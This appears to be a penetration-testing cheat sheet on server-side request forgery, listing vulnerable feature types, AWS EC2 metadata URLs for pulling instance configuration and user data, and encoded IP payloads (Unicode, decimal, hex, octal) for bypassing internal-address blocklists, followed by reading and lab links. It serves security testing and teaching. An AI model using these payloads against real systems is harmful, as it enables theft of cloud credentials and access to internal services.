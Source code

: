 # Server Side Request Forgery (SSRF)

**Unordered top 5 features that are often prone to SSRF vulnerabilities**

* Webhooks
* PDF generators
* Document parsers
* Link expansion
* File uploads

### Extract EC2 configuration files

> Amazon exposes an internal service every EC2 instance can query for instance metadata about the host.

[AWS Documentation](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)

```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/ (zip file)
```

## Bypassing filters

### Blacklisted IPs

If the service has blacklisted internal IP addresses this might be possible to bypass in numerous ways.

[This script](https://github.com/cujanovic/SSRF-Testing/blob/master/ip.py) will output possible bypass vectors like the ones below.

```
http://169。254。169。254/
http://169｡254｡169｡254/
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://[::①⑥⑨｡②⑤④｡⑯⑨｡②⑤④]:80/
http://[::ⓕⓕⓕⓕ:①⑥⑨。②⑤④。⑯⑨。②⑤④]:80/
```

#### Decimal

[IPv4 to decimal converter](https://www.browserling.com/tools/ip-to-dec)

```
target.com/?url=http://2130706433 (127.0.0.1)
```

#### Hexadecimal

[IPv4 to hexadecimal converter](https://www.browserling.com/tools/ip-to-hex)

```
target.com/?url=http://0x7f.0x00.0x00.0x01 (127.0.0.1)
target.com/?url=http://0x7f000001          (127.0.0.1)
```

#### Octal

> Not positive that this works well or at all. Still testing

[IPv4 to octal converter](https://www.browserling.com/tools/ip-to-oct)

```
target.com/?url=http://0177.0000.0000.0001 (127.0.0.1)
target.com/?url=http://017700000001        (127.0.0.1)
```

## Resources

* **Reading**
  * **Articles**
    * [Server-Side Request Forgery (SSRF) Attacks - Part 1: The basics](https://medium.com/poka-techblog/server-side-request-forgery-ssrf-attacks-part-1-the-basics-a42ba5cc244a)
    * [Server-Side Request Forgery (SSRF) Attacks  - Part 2: Fun with IPv4 addresses](https://medium.com/poka-techblog/server-side-request-forgery-ssrf-attacks-part-2-fun-with-ipv4-addresses-eb51971e476d)
    * [Server-Side Request Forgery (SSRF)  Attacks - Part 3: Other advanced techniques](https://medium.com/poka-techblog/server-side-request-forgery-ssrf-part-3-other-advanced-techniques-3f48cbcad27e)
    * [What is server side request forgery (SSRF)?](https://blog.detectify.com/2019/01/10/what-is-server-side-request-forgery-ssrf/)
    * [How To: Server-Side Request Forger (SSRF)](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF)
  * **Writeups**
    * [SSRF in proxy.duckduckgo.com via the image_host parameter](https://hackerone.com/reports/358119)
    
* **Hands On**
  * [SSRF Lab](https://github.com/m6a-UdS/ssrf-lab)

* **Tools & Services**
  * [IPv4 to decimal converter](https://www.browserling.com/tools/ip-to-dec) (Online Service)
  * [IPv4 to octal converter](https://www.browserling.com/tools/ip-to-oct)
  * [IPv4 to hexadecimal converter](https://www.browserling.com/tools/ip-to-hex)
  * [SSRF testing resources](https://github.com/cujanovic/SSRF-Testing) (Github Repo)
